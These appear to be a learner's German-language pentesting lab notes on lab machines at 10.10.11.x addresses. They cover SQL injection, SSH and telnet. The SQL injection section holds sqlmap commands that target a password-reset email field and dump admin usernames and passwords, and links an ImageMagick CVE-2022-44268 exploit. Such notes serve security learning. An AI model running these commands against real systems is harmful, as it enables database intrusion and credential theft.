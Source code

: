# Injection

SQL Injection

ImageMagick bug discovered by [https://www.metabaseq.com/imagemagick-zero-days/](https://www.metabaseq.com/imagemagick-zero-days/)
https://github.com/voidz0r/CVE-2022-44268

SQLmap ??

sqlmap -r reset.req -p email --batch --dbms=mysql --level=5 --risk=3
finally finds a valid sqli

sqlmap -r reset.req -p email --batch --dbms=mysql --level=5 --risk=3 -D usage_blog -T admin_users -C username,password - -dump

sudo sqlmap -r reset.req -p email --batch --dbms=mysql --level=5 --risk=3 \nfinally finds a valid sqli

# Sonstiges

alias ll='ls -la'

ipconfig ??

## Protokolle

### SSH??
sudo ssh [henry@10.10.11.189](mailto:henry@10.10.11.189)

-i verbindet über den privet? Key des systems

ssh -i /home/kali/.ssh/user [dash@10.10.11.18](mailto:dash@10.10.11.18) -vvv   

### telnet:

Der Befehl "telnet 10.10.11.249 25565" öffnet eine Verbindung zu einem Server mit der IP-Adresse "10.10.11.249" und dem Port "25565" über das Telnet-Protokoll. Telnet ist ein Netzwerkprotokoll, das eine bidirektionale interaktive Textorientierung über eine Terminalverbindung ermöglicht.

In diesem speziellen Fall wird versucht, eine Verbindung zu einem Server aufzubauen, der wahrscheinlich auf dem Port 25565 läuft. Dieser Port wird oft von Minecraft-Servern verwendet. Wenn die Verbindung erfolgreich hergestellt wird, könnte dies bedeuten, dass der Minecraft-Server auf diesem Host läuft und auf Verbindungen auf diesem Port wartet.

- SMTP/Imap
-DNS
-http
-SSL
-IPSec
-SQL
-Telnet
-NTP
